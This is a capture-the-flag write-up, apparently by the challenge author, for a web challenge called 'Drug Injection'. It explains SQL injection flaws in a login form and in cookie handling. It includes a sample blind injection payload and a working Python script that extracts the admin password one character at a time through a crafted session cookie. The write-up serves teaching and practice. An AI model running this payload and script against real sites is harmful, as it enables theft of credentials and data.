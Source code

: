 ```yaml
---
categories: [ShunyaCTF, Drug Injection]
tags: [web exploitation]     # TAG names should always be lowercase
author: Darshan
description: Web exploitation category challenge created by me for ShunyaCTF Aarambha
image:
    path: /assets/img/Banners/DrugInjection.jpg
pin: False
---
```


# Solution for Drug Injection Challenge

## Challenge Overview
I made a drug awareness website for my drug addict friend as a joke to help him get over his addiction. He kept complaining about not being able to log in. He scored an injection drug. I tried to convince him that he should stop getting high before he tries to log in. Injections won't always help you get higher access. He was not satisfied with just a single injection; he wanted to try a double dose. How do I convince him to stop? Help me spread awareness!

This challenge revolves around exploiting SQL injection vulnerabilities in the login page and the cookie handling mechanism to retrieve sensitive information.

## Vulnerability Explained
The application is vulnerable to SQL injection in two areas:
1. **Login Page:** The input fields for username and password are not properly sanitized, allowing malicious SQL code to be executed.
2. **Cookie Handling:** The application directly uses the cookie value in SQL queries without sanitization, enabling attackers to inject SQL commands through crafted cookies.

By leveraging these vulnerabilities, an attacker can retrieve the administrator's password, which serves as the flag for this challenge.

## Application Walkthrough
Index page of web application looks like this:
![homepage](/assets/img/ShunyaCTF/DrugInjection/homepage.png)

We see login option at the top-right of the page click that button and we are redirected to login page which looks like this:
![loginpage](/assets/img/ShunyaCTF/DrugInjection/loginpage.png)

and after successful login you will be redirected to this:
![welcomepage](/assets/img/ShunyaCTF/DrugInjection/welcomepage.png)

## Solution Script Walkthrough
To solve the challenge, we focus on exploiting the cookie handling vulnerability. Below is the breakdown of the solution script:

1. **Initialize the Session:**
   - Use the `requests` library to manage the session and send HTTP requests to the target application.

2. **Target URL:**
   - The script interacts with the `/welcome.php` endpoint of the challenge.

3. **Craft Cookie for Injection:**
   - A custom cookie is created containing the SQL injection payload.

4. **SQL Injection Payload:**
   - The payload extracts the password character by character using the `SUBSTRING` function in SQL.
   - Example payload: `' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username='admin')='a`.

5. **Retrieve Password:**
   - Iterate through all characters in the password by testing against a predefined character set.
   - Append matching characters to the `password` variable until the full password is retrieved.

Here is the script:

```python
import requests

# Welcome page URL of the challenge
url = '<url>/welcome.php'

r = requests.Session()

cookie1 = {
    'Session': '<Your cookie value>'
}

res = r.get(url=url, cookies=cookie1)

char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_}{"

sess_cookie = cookie1['Session']
print(sess_cookie)

count = 1
password = ''
while count <= 57:
    for char in char_set:
        # SQL injection payload
        payload = "' AND (SELECT SUBSTRING(password, " + str(count) + ", 1) FROM users WHERE username='admin')='" + char
        cookie = {'Session': sess_cookie + payload}
        test = r.get(url=url, cookies=cookie)

        if "Welcome, Sir!" in test.text:
            password += char
            print(f"[+] password: {password}")
            count += 1
```

## How to Use the Solution Script
1. Replace `<url>` with the challenge URL and `<Your cookie value>` with the session cookie value.
2. Run the script in a Python environment with the `requests` library installed.
3. Observe the console output to see the password being retrieved character by character.
4. Once the script completes, the full password (flag) will be displayed.

## Conclusion
This challenge highlights the critical importance of proper input validation and sanitization in web applications. By demonstrating the exploitation of SQL injection vulnerabilities, it underscores the need for secure coding practices to protect sensitive data from unauthorized access.

